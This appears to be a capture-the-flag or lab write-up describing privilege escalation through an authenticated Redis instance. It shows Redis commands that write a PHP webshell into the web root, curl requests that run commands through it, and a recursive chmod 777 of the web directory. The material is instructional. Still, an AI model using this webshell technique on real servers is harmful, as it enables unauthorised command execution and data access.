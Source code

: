 # Redis Bug Hunt
This challenge requires gaining access to index.php on the client which is also running a redis instance.

## Initial Enumeration
During initial enumeration of the host, there are two services running of interest, apache and redis. The apache default installation (/var/www/html) location is not readable by the current user. The redis service however is running as root and has a readable config file (/etc/redis/redis.config).
![Initial Enumeration](img/initial-enum.png)

Furthermore, using the configuration file, the password for authenticated access to the redis server can be attained which can allow a privesc attempt by writing out a PHP webshell.

## Privesc Via PHP Webshell
With redis authenticated access, the a webshell can be written out to the web server directory which can be used to execute arbitrary commands such as reading the target, index.php. The web shell is created by create a new redis database with PHP code in it. Since the webserver is a php server, this should be possible.

```bash
redis-cli
AUTH R3disp@ss
config set dir /var/www/html
config set dbfilename web.php
set test "<?php system($_GET['cmd']);?>"
save
```

Now, the redis database can be queried for the shell via curling the local host.
```bash
curl localhost/web.php?cmd=ls --output -
```
![Making the Webshell](img/make-webshell.png)

There are multiple avenues now to do the privesc, however the easiest based on the stated goals is to just chmod the web directory to make it readable to the current user. Then, reading the file, the bug is found.
```bash
curl localhost/web.php?cmd=chmod+777+-R+.
ls -altr /var/www/html
cat /var/www/html/index.php
```
![Chmod and Reading](img/chmod-ftw.png)
